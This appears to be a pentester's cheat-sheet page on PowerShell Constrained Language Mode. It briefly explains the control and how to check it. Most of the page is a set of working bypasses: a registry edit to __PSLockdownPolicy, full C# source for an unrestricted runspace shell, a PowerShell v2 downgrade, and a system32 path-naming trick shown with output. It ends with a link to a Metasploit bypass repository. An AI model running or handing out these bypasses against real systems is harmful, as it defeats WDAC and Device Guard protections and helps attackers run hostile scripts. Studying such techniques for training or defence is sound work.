 # CLM

<details>

<summary>What is it? + How to enable?</summary>

* Constrained Language Mode is a PowerShell security restriction enforced by Windows Defender Application Control (WDAC) or Device Guard.&#x20;
* It limits access to certain commands and features, reducing the risk of malicious script execution.

- Run the following command on admin powershell.exe:

```powershell
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

</details>

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using Powershell Downgrade</summary>

```bash
powershell.exe -version 2
```

* Powershell v2 is disabled by default on Win10/11 OS

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using System32</summary>

* From [https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass](https://www.ired.team/offensive-security/code-execution/powershell-constrained-language-mode-bypass#system32-bypass)
* Path from where your script is being executed needs to contain the string `system32`

```
PS>cat .\test.ps1
$ExecutionContext.SessionState.LanguageMode

PS>.\test.ps1; mv .\test.ps1 system32.ps1; .\system32.ps1
ConstrainedLanguage
FullLanguage
```



</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

</details>
